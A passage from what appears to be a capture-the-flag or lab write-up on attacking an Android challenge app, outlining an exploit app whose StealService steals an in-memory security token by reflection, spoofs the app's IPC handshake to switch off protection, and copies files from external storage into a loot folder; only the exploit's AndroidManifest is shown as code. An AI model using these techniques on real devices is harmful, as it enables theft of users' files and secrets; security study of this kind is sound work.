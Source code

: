 4. The actual **status of the files and the UI are out of sync**: the card says “*SECURE*”, but the **protection is disabled**.

Let's create the **exploit**!
#### `MainActivity`
Requests _notification_ and _storage_ permissions, then launches **`StealService`**.
#### `StealService`
- **Mutes** every audio stream.
- Reflects into `com.eightksec.andropseudoprotect` to steal the in‑memory **security token**.
- Spoofs the **victim’s IPC handshake** (`START_SECURITY` ➜ waits for `SECURITY_STARTED` ➜ replies `STOP_SECURITY`).
- After `DECRYPTION_COMPLETE`, **crawls external storage**, copies any ≤ 10 MB “*interesting*” files (e.g. `.txt`, `.pdf`, *secret*) into its *own loot-folder and previews a few lines of up to three text files in Logcat*.

### Code
**`AndroidManifest.xml`**
```XML
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:tools="http://schemas.android.com/tools"  
    package="com.lautaro.andropseudoexploit">  
  
    <uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"  
        tools:ignore="QueryAllPackagesPermission"/>  
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"  
        tools:ignore="ScopedStorage" />  
  
    <uses-permission android:name="android.permission.POST_NOTIFICATIONS" />  
    <uses-permission android:name="android.permission.ACCESS_NOTIFICATION_POLICY" />  
  
    <uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS"/>  
  
    <application  
        android:allowBackup="true"  
        android:icon="@mipmap/ic_launcher"  
        android:label="AndroPseudoExploit"  
        android:requestLegacyExternalStorage="true"  
        android:supportsRtl="true"  
        android:theme="@style/Theme.AppCompat.DayNight.NoActionBar">  
        <activity  
            android:name=".MainActivity"  
            android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN" />  
                <category android:name="android.intent.category.LAUNCHER" />  
            </intent-filter>  
        </activity>  
        <service  
            android:name=".StealService"  
            android:exported="false"  
            android:foregroundServiceType="dataSync"/>  
    </application>  
</manifest>
```
